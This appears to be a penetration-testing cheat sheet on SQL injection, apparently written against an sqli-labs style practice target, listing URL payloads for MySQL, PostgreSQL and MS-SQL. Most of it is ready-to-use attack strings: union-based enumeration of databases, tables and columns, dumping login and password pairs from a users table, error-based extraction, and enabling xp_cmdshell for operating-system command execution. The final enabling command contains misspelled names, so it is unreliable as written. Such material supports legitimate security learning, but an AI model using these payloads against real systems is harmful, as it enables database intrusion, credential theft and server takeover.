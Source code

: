 # SQL injection

SQL Injection (SQLi) is a code injection attack where an attacker manipulates the data being sent to the server to execute malicious SQL statements to control a web application’s database server, thereby accessing, modifying and deleting unauthorized data. This attack is mainly used to take over database servers.

* In-band SQLi (Classic SQLi)
* Error-based SQLi
* Union-based SQLi
* Inferential SQLi (Blind SQLi)
* Boolean-based (content-based) Blind SQLi
* Time-based Blind SQLi
* Out-of-band SQLi

## SQLI tricks

#### Error-Based

`Adding a simpe quote '`

Example: `http://vulnerable-website.com/Less-1/?id=5'`

#### Fuzzing

Sorting columns to find maximum column

`http://vulnerable-website.com/Less-1/?id=-1 order by 1`

`http://vulnerable-website.com/Less-1/?id=-1 order by 2`

`http://vulnerable-website.com/Less-1/?id=-1 order by 3`

(until it stop returning errors)

#### Finding what column is injectable

**mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql** `http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

one of the columns will be printed with the respective number

***

**Finding version**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, version()` **mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s

**Finding database name**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**

**Finding usernames logged in**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**

**Finding databases**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**

**Finding table names from a database**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**

**Finding column names from a table**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

**Concatenate**

Example:

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login from users;` `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql** `http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**

#### Error Based SQLI (USUALLY MS-SQL)

**Current user**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`

**DBMS version**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`

**Database name**

`http://vulnerable-website.com/Less-1/?id=-1 or db_name(0)=0 --`

**Tables from a database**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

***

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`

**Columns within a table**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation after each iteration a new column name will be found, make sure add it to \*\* previously found column name \*\* separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`

**Actual data**

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to \*\* previously found column name \*\* separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`

**Shell commands**

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

**Enabling shell commands**

{% code overflow="wrap" %}
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;
```
{% endcode %}
